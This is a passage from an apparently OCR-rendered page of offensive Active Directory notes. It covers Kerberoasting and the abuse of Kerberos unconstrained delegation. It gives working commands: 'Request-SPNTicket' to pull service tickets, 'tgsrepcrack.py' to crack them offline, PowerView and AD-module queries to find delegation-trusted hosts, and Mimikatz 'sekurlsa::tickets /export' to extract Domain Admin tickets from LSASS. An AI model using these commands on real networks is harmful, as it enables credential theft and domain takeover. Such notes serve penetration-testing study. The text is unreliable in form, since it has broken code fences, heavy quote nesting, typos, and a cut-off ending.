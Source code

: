 > > > > > > > ```
> > > > > >
> > > > > > ***PowerView_Dev***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Request-SPNTicket
> > > > > > > ```
> > > > >
> > > > > ***Crack Password offline***
> > > > >
> > > > > > ```python
> > > > > > python tgsrepcrack.py WordlistDict.txt <TicketName>
> > > > > > ```
>
> :two:***​Kerberos  Delegation*** : re-user end-user credentials to access resources hosted on a different server 
>
> > :information_desk_person: Service Account must be trusted for delegation to be able to make requests as a user. 
> >
> > :information_desk_person: A mechanism is required to impersonate the incoming user and authenticate to the second hop server. 
> >
> > :two: :one: ***Unconstrained Delegation*** -- Double hopes Kerberos 
> >
> > > :information_desk_person: Allow Access to any service on any computer in the domain 
> > >
> > > :information_desk_person: User present TGT inside TGS to the first Server's service 
> > >
> > > :information_desk_person: DC make sure that the TGT account owner is not marked as sensitive or can't be delegated 
> > >
> > > :information_desk_person: Incase UNC-Delegation enabled, TGT extracted from TGS and Stored in LSASS, that's how the server can reuse the user's TGT to access any other resources
> > >
> > > :rotating_light: Compromise machine with unconstrained delegation and a Domain Admin connects to that machine; 
> > >
> > > ***Enumerate Domain computer with unconstrained delegation***
> > >
> > > > ***PowerView***
> > > >
> > > > > ```powershell
> > > > > Get-NetComputer -UnConstrained
> > > > > ```
> > > >
> > > > ***Active Directory Module***
> > > >
> > > > > ```powershell
> > > > > Get-ADComputer -Filter {TrustedForDelegation -eq $True}
> > > > > Get-ADUser -Filter {TrustedForDelegation -eq $True}
> > > > > ```
> > >
> > > ***Compromise The Machine***
> > >
> > > ***Extract Domain Admin Tokens*** 
> > >
> > > > ```powershell
> > > > Invoke-mimikatz -Command '"sekurlsa::tickets /export"'
> > > > ```
> > > >
> > > > ***Cron Job Watching logon***
> > > >
> > > > ```powershell